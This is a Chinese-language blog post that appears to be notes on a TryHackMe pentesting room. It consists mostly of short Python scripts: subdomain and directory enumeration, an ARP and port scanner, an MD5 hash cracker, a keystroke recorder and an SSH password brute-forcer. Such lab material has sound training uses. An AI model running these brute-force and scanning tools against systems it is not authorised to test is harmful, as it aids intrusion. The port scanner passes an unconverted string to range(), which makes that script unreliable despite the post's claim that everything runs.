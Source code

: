 # Python for Pentesters

python，事实上我已经使用python开发、以及其他编程语言开发 断断续续已经三四年了

时间过得很快，四入五舍一下，三年前我就开始从零学开发。

而三年后，也就是现在，我开始学起了网安，三年又三年又三年。

可能一些曾经我非常熟悉的语言我或许忘了，但没关系，编程思想永远都刻在了dna里

---

在整个房间中，您将看到如何：

    使用 Python 枚举目标的子域
    构建一个简单的键盘记录器
    扫描网络以查找目标系统
    扫描任何目标以查找开放端口
    从互联网下载文件
    破解哈希

我直接贴代码了，没什么难度的，必要的时候现场写一个就好了，平时直接拿现成的来用

代码我就不解释了,都是挺简单的小脚本，看不懂的话可能需要学习一下python基础

### 部分代码我修改过，python3全都能用

---

### 子域枚举

    import requests 
    import sys 

    sub_list = open("subdomains.txt").read() 
    subdoms = sub_list.splitlines()

    for sub in subdoms:
        sub_domains = f"http://{sub}.{sys.argv[1]}" 

        try:
            requests.get(sub_domains)
        
        except requests.ConnectionError: 
            pass
        
        else:
            print("Valid domain: ",sub_domains)  

requests模块的使用，非常的简单

---

### 目录枚举

    import requests 
    import sys 

    sub_list = open("wordlist.txt").read() 
    directories = sub_list.splitlines()

    for dir in directories:
        dir_enum = f"http://{sys.argv[1]}/{dir}.html" 
        r = requests.get(dir_enum)
        if r.status_code==404: 
            pass
        else:
            print("Valid directory:" ,dir_enum)

### 网络扫描

    from scapy.all import *

    interface = "eth0"
    ip_range = "10.10.X.X/24"
    broadcastMac = "ff:ff:ff:ff:ff:ff"

    packet = Ether(dst=broadcastMac)/ARP(pdst = ip_range) 

    ans, unans = srp(packet, timeout =2, iface=interface, inter=0.1)

    for send,receive in ans:
            print (receive.sprintf(r"%Ether.src% - %ARP.psrc%")) 

scapy的使用; scapy文档：https://www.osgeo.cn/scapy/extending.html

---

### 端口扫描

    import sys
    import pyfiglet
    from socket import *

    print(pyfiglet.figlet_format("Sugobet \n Port Scanner"))

    ip = sys.argv[1]
    open_ports = []
    ports = range(1,sys.argv[2])


    def scan(port):
        result = 1
        try:
            sock = socket(AF_INET,SOCK_STREAM)
            sock.settimeout(1)
            r = sock.connect_ex((ip, port))

            if r == 0:
                result = r
            sock.close()
        except Exception:
            pass

        return result

    for port in ports:
        res = scan(port)
        if res == 0:
            open_ports.append(port)

    print(f"Open Ports:{open_ports}")

socket的简单使用

---

### 文件下载

也是requests的使用

    import requests

    url = 'https://assets.tryhackme.com/img/THMlogo.png'
    r = requests.get(url, allow_redirects=True)
    open('THMlogo.png', 'wb').write(r.content)

---

### hash爆破

    import hashlib
    import pyfiglet

    ascii_banner = pyfiglet.figlet_format("Sugobet \n HASH CRACKER for MD5")
    print(ascii_banner)

    wordlist_location = str(input('Enter wordlist file location: '))
    hash_input = str(input('Enter hash to be cracked: '))

    with open(wordlist_location, 'r', encoding="ISO-8859-1") as file:
        for line in file.readlines():
            print(line)
            hash_ob = hashlib.md5(line.strip().encode())
            hashed_pass = hash_ob.hexdigest()
            if hashed_pass == hash_input:
                print('Found cleartext password! ' + line.strip())
                exit(0)

---

### 键盘监听

    import keyboard
    keys = keyboard.record(until ='ENTER')
    keyboard.play(keys)

---

### ssh 爆破

paramiko模块的使用

    import paramiko


    target = str(input('Please enter target IP address: '))
    username = str(input('Please enter username to bruteforce: '))
    password_file = str(input('Please enter location of the password file: '))

    def ssh_connect(password, code=0):
        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

        try:
            ssh.connect(target, port=22, username=username, password=password)
        except paramiko.AuthenticationException:
            code = 1
        ssh.close()
        return code

    with open(password_file, 'r', encoding="ISO-8859-1") as file:
        for line in file.readlines():
            password = line.strip()
            
            try:
                response = ssh_connect(password)

                if response == 0:
                    print('password found: '+ password)
                    exit(0)
            except Exception as e:
                print(e)

